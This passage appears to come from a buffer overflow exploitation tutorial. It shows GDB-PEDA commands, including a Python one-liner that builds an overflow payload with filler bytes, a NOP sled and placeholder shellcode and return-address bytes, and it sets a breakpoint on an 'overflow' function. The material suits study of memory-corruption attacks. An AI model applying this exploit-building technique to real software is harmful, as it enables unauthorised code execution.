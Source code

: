 ![buffer overflow schema](/assets/images/15/bo-1.png){:class="img-responsive"}          


Now we can try to find out how much space we have available to insert our shellcode. For that we are going to head back into GDB and run the following command:        

```bash
gdb-peda$ r $(python -c 'print ("\x41" * (272 - 64 - 25 - 4) + "\x90" * 64 + "\x44" * 25 + "\x42" * 4)')
```

But firstly, let us have a look at the whole main function. Because if we execute it now, the program will crash without giving us the possibility to follow what happens in the memory. So, let's go to set breakpoint at the `overflow` function firstly:     
```bash
gdb-peda$ b overflow
```
